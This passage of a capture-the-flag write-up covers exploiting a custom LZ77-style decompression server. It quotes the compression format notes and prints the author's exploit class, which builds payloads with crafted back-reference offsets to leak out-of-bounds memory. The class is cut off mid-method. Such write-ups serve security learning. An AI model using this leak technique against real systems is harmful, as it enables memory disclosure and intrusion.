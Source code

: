 # post-flag findings

As the flag tells us, it seems the algorithm is based on lz77.

After getting access to the server we can also read the 'documentation': 

```markdown
# Compression format

(Note to self: the flag is stored in /flag)

1. Header
- u32 MAGIC "TINY"

2. Blocks
- u8 literal
- if literal == 0xff:
  - it's not a literal;
  - varint offset
  - varint length
  - if offset == 0, then special case:
    - if length == 0, EOF
    - if length == 1, literal 0xff
```

So it seems that we can indeed insert literal 0xff, although the compression algorithm maybe does not make use of it? (In the beginning I have shown that the compression with 0xff in it gives errors)

# Xploiter class

I am very proud of it so I will show the code of the class directly in the writeup 😃

```python
class DecompressXploiter():
    def __init__(self):
        self.__magic = b'54494e59'
        self.__payload = b''
        self.__numbytes = 0
        self.__end = b'ff0000'
        self.__leaks = []
        
    def leak(self, offset, num=8):
        length = 2**64-offset if offset > 0 else abs(offset)
        patternlen = make_length(length + self.__numbytes)
        leaklen = make_length(num)

        self.__leaks.append(self.__numbytes)
        self.__numbytes += num
        self.__payload += b'ff' + patternlen + leaklen
        
    def pad(self, num):
        self.__payload += b'aa'*num
        self.__numbytes += num

    def add(self, b):
        assert(b'\xff' not in b)
        self.__payload += b.hex().encode()
        self.__numbytes += len(b)
        
    def chain(self):
        return self.__magic + self.__payload + self.__end
    
    def cycle(self, begin, numb):
        patternlen = make_length(self.__numbytes - begin)
```